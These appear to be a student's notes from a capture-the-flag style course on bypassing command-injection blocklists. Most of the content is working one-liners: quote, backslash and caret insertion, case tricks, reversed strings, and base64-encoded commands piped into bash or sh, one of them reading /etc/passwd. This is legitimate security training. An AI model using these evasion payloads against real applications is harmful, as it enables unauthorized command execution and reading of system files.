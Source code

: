 some WAFs/apps will blacklist OS commands like `whoami` , lets see how we can bypass them
## linux
```shell-session
$ w'h'o'am'i

$ w"h"o"am"i

who$@ami
w\ho\am\i
```
## Windows

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

Bypassing Blacklisted Commands

```cmd-session
C:\htb> who^ami
```
## Exercise

+ 2 Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
![](Pasted%20image%2020250529163603.png)

# advanced  obfuscation

## Case Manipulation WINDOWS
```powershell-session
WhOaMi
```
## LINUX
when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:

```shell-session
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```
![](Pasted%20image%2020250529164254.png)
## Commands Blacklist

We have so far successfully bypassed the character filter for the space and semi-colon characters in our payload. So, let us go back to our very first payload and re-add the `whoami` command to see if it gets executed

### REVERSING COMMAND
```

┌──(demise㉿kali)-[~]
└─$ echo 'imaohw'|rev                                                                          
whoami

┌──(demise㉿kali)-[~]
└─$ rev<<<'imaohw'
whoami
```
![](Pasted%20image%2020250529164741.png)

# Command obfuscation 

### Case Manipulation

Case Manipulation (windows)
```powershell-session
PS C:\htb> WhOaMi

21y4d
```

case manip. linux (case sensitive)
```shell-session
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

```bash 
#lowercase all! expansion parameter (${a,,})
$(a="WhOaMi";printf %s "${a,,}")
```
## reverse commands

```shell-session
echo 'whoami' | rev
```

```shell-session
$(rev<<<'imaohw')
demise
```
reverse the  commands (windows)
```powershell-session
PC1> ('imaohw'[-1..-20] -join '')"

21y4d
```
### Encode COMMANDS

windows encode
```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```
windows decode
```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell-session
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

```shell-session
 echo -n 'cat /etc/passwd | grep 33' | base64
 Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

```
└─$ echo -n 'cat /flag.txt' | base64
Y2F0IC9mbGFnLnR4dA==
```

try replacing bash or sh with something that's not filtered if filtered
(openssl, zsh, bash...etc `xxd` for hex decoding.)
```shell-session
bash<<<$(base64 -d<<<Y2F0IC9mbGFnLnR4dA==)

sh<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

	